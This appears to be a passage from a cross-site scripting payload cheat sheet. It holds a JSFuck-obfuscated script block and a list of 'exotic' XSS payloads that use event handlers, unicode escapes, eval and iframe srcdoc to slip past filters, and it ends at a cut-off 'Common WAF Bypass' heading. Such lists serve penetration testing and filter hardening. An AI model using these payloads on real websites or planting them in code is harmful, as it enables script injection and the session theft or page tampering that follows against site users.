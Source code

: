```javascript
<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
```

Exotic payloads

```javascript
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
<script>$=1,\u0061lert($)</script>
<</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>
<</script/script><script ~~~>\u0061lert(1)</script ~~~>
</style></scRipt><scRipt>alert(1)</scRipt>
<img/id="alert&lpar;&#x27;XSS&#x27;&#x29;\"/alt=\"/\"src=\"/\"onerror=eval(id&#x29;>
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<svg><x><script>alert&#40;&#39;1&#39;&#41</x>
<iframe src=""/srcdoc='&lt;svg onload&equals;alert&lpar;1&rpar;&gt;'>
```

## Common WAF Bypass

### Chrome Auditor - 9th august
